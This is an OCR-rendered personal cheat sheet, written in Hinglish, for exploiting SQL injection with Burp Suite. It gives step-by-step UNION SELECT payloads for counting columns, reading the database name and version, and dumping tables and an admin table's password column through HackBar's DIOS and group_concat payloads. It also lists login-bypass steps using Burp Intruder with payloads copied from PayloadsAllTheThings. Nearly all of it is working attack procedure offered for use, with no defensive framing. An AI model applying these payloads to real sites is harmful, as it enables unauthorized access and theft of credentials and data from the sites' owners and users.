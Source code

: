 | *————-Burpsuit me sql injecsion kaise perfrom krege————————* |  |
| step 1 :  id=5 | Find parameter GET , POST |
| step 2 :  id=5' | Genrate Erroer (erroe show like this)  |
| step 3 :  id=5' --   &    5'+--                  …not query balance                           id=5'+--+-         …query balance | Query Balance & url incoded kerna padega    (ctrl + u) |
| step 4 : 5'order+by+100+--+-                        …data change                                          • 5' order+by+10+--+-                        …change 
• 5' order+by+13+--+-                     not change in website means 1 se 13 taak table hai hmare pass. | jb query balance ho jaye to Order by 100,50,10,4,5,9 aise number dal ke check kerte hai.   + means url incoded |
| step 5 :-  5' union select 1,2,3,4,5,6,7,8,9,10,11,12,13 -- -      (url incoded kro)          • url incode :- 5'+union+select+1,2,3,4,5,6,7,8,9,10,11,12,13+--+-    | ab 1 se 13 taak kaun si table vulnereble hai wo check kerna hai. |
| step 6 :- id=-5'+union+select+1,2,3,4,5,6,7,8,9,10,11,12,13+--+- | 5 ke aage - lagado to data show hoga.yaha pe 4 aur 5 table vuln mila |
| step 7 :- id=-5'+union+select+1,2,3,version(),5,6,7,8,9,10,11,12,13+--+-
• id=-5'+union+select+1,2,3,database(),5,6,7,8,9,10,11,12,13+--+-
• id=-5'+union+select+1,2,3,database(),version(),6,7,8,9,10,11,12,13+--+- |  |
| step 8 :- **Where extension hackbar located in burpsuit**
Extension —> BApp store —> Search Hackbae,Payload,bucket —>install |  |
| step 9 :- • now i have this url :-
GET /page.php?id=-5'+union+select+1,2,3,database(),database(),6,7,8,9,10,11,12,13+--+- HTTP/2
• delete one database() in url
id=-5'+union+select+1,2,3,database(), ,6,7,8,9,10,11,12,13+--+- |  |
| step 10 :- • right click on between , , —> Extension —> HackBar,Payload Bucket —> hack Bar —> SQLi Injection —> DIOS MYSQL —> tr0jan WAF —> click send butten | All database dump in one short |
| step 11 :- id=-5'+union+select+1,2,3,database(), ,6,7,8,9,10,11,12,13+--+-
• right click on between , , —> Extension —> HackBar,Payload Bucket —> hack Bar —> SQLi Injection —> Table —> Table group concat —> ok —> send —> watch in rander | All table nikalna padega to |
| step 12 :- id=-5'+union+select+1,2,3,database(), ,6,7,8,9,10,11,12,13+--+-
• right click on between , , —> Extension —> HackBar,Payload Bucket —> hack Bar —> SQLi Injection —> Column —> column group concat —>
• enter table name = admin —> ok —> send | Agar mujhe admin ka table dekhna huaa to. |
| id=-5'+union+select+1,2,3,database(), ,6,7,8,9,10,11,12,13+--+-
• right click on between , , —> Extension —> HackBar,Payload Bucket —> hack Bar —> SQLi Injection —> Data —> Data group concat —>
• Enter database    = dont change click ok
• Enter tablename  = admin click ok
• Enter coloum to dump  = password  click ok —> send | Agar mujhe password dekhna rha ho  |
|  |  |

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
| **Authentication Bypass** |  |
| https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md |  |
step 0] username me ' lagake check kro ki sql injection vulnerebility hai ya nahi. agar error aaye sql se related ya blank hojaye to error hai. 
step 1] login page pe admin/admin daalo. 
step 2] burp pe request ko accept kro. 
step 3] us request ko intruder pe send kro. 
step 4] target check kro. intruder pe 
step 6] pojision pe jake sniper select kro. 
step 7] payload entro point ko select kerke clear kro. 
step 8] username me && ye sumbool add kro admin ko hata ke. aue password ko aise hi rhne do. step 
9] https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md .....yaha se authentacation bypass ka payload copy kro. step 
10] payload me jake paload opsion me past ker do step 11] start attack pe click kerdo. step 12] states code jo different aaye use copy ker lo. step 13] use login page pe username pe past ker do. aur password me kuchh bhi daal do. step 14] login hojao.